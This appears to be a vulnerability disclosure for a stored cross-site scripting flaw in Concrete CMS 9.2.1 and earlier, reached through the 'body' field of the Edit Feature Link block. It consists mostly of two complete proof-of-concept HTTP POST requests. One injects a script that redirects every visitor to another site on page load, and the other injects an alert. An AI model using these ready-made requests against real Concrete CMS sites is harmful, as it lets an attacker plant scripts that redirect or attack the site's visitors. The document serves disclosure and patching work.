 BUG_Author:
LJWIIE

Affected version:
Concrete CMS versions 9.2.1 and earlier

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks via the "body" parameter in the "Edit Feature Link" function. This may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'body' contains a Stored Cross-Site Scripting (XSS) vulnerability

[Redirect to Google official website]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1952
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script type="text/javascript">
        window.onload = function() {
            window.location.href = 'https://www.google.com';
        };
</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/c20eeb0d-78a7-4f65-a48a-c0e81469355e)

Once edited and saved, anyone visiting this page will be forced to visit the Google website.
Below is a gif showing it.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[Display alert window]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1831
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script>alert("You have been hacked!")</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```
![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/8eb05aa6-b84c-4839-994f-78b318a3e324)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

